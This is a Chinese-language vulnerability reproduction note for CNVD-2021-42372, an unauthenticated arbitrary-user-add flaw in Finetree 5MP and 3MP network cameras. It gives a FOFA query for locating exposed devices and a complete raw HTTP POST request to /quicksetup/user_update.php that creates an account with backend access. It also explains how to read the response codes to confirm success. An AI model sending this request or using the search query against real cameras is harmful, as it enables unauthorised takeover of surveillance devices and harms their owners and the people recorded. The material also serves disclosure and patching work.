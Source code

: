 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## FOFA

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面

![image-20220519162837184](./images/202205191628247.png)

存在漏洞的文件 user_pop.php

![image-20220519163003628](./images/202205191630679.png)

```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求

![image-20220519163205310](./images/202205191632366.png)

或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复

![image-20220519163124031](./images/202205191631102.png)

利用添加的账户可以登录后台

![image-20220519163442946](./images/202205191634048.png)